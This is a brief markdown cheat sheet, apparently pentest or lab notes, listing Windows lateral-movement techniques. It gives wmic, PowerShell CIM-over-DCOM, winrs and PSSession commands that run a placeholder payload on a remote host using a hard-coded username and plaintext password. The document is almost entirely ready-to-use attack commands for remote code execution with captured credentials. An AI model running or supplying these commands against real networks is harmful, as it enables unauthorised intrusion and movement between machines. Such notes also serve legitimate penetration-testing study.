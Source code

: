 # Native wmic
```bash
wmic /node:192.168.250.73 /user:jen /password:Nexus123! process call create "<payload>"
```

-----------------------

# Powershell wmic
```bash
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.250.73 -Credential $credential -SessionOption $Options
$Command = '<payload>';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

-----------------------

# Native winrs
```bash
winrs -r:files04 -u:jen -p:Nexus123! "<payload>"
```

-----------------------

# Powershellwinrs
```bash
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

New-PSSession -ComputerName 192.168.250.73 -Credential $credential
Enter-PSSession 1
```

